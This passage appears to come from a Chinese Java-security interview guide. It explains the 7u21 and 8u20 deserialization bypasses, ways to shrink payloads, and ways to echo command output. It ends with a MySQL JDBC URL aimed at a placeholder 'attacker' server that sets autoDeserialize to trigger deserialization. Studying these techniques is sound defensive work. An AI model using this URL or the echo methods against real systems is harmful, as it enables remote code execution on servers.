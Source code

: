 可以看到伪代码最后在`map`中`put`了某个元素，这是为了处理哈希碰撞的问题。`TemplatesImpl`没有重写`hashcode`直接调用`Object`的方法。而代理对象的`hashcode`方法也是会先进入`invoke`方法的，跟入`hashCodeImpl`方法看到是根据传入参数`HashMap`来做的，累加每一个`Entry`的`key`和`value`计算得出的`hashcode`。通过一些运算，可以找到符合条件的碰撞值



### 谈谈8U20反序列化（★★★★★）

这是7U21修复的绕过

在`AnnotationInvocationHandler`反序列化调用`readObject`方法中，对当前`type`进行了判断。之前POC中的`Templates`类型会导致抛出异常无法继续。使用`BeanContextSupport`绕过，在它的`readObject`方法中调用`readChildren`方法，其中有`try-catch`但没有抛出异常而是`continue`继续

所以这种情况下，就算之前的反序列化过程中出错，也会继续进行下去。但想要控制这种情况，不可以用正常序列化数据，需要自行构造畸形的序列化数据



### 了解缩小反序列化Payload的手段吗（★★★）

首先最容易的方案是使用Javassist生成字节码，这种情况下生成的字节码较小。进一步可以用ASM删除所有的LineNumber指令，可以更小一步。最终手段可以分块发送多个Payload最后合并再用URLClassLoader加载



### 谈谈实战中命令执行有哪些回显的办法（★★★★）

首先想到的办法是`dnslog`等技术进行外带，但必须出网，有限制

然后类似内存马的思路，针对指定中间件找`response`对象写入执行结果

尝试写文件，往`web`目录下写，例如`xx.html`可以访问到即可

将命令执行结果抛出异常，然后用`URLClassLoader`加载，达到报错回显

Y4er师傅提到的自定义类加载器配合RMI的一种方式



### 有没有了解过针对`linux`的通杀的回显方式（★★★★）

获取本次`http`请求用到`socket`的文件描述符，然后往文件描述符里写命令执行的结果

但鸡肋的地方在于需要确定源端口，才可以使用命令查到对应的文件描述符，存在反代可能有问题



### 是否存在针对`windows`的通杀的回显方式（★★★★）

原理类似`linux`的通杀回显，在`windows`中`nio/bio`中有类似于`linux`文件描述符这样的句柄文件

遍历`fd`反射创建对应的文件描述符，利用`sun.nio.ch.Net#remoteAddress`确认文件描述符有效性，然后往里面写数据实现回显



### 是否了解JDBC Connection URL攻击（★★★）

果我们可以控制`JDBC URI`就可将`JDBC`连接地址指向攻击者事先准备好的恶意服务器，这个服务器可以返回恶意的序列化数据

指定`autoDeserialize`参数为`true`后`MySQL`客户端就可以自动反序列化恶意Payload

使用`ServerStatusDiffInterceptor`触发客户端和服务端的交互和反序列化

```text
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```
